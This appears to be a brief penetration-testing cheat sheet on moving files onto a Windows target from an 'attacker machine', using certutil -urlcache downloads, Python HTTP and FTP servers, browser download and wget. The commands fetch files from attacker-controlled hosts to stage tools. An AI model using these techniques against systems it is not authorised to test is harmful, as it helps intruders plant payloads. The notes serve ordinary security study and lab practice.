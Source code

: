 
Certutil
	`certutil.exe -urlcache -f http://10.0.0.200/file.txt file.txt`
HTTP
	`python -m SimpleHTTPServer 80`
Browser
	Navigate to the file directly
FTP
	`python -m pyftpdlib 21 (attacker machine)`   on the attacker machine
	`ftp 10.10.10.10`     on the windows machine going into the attacker machine
Linux
	`wget`
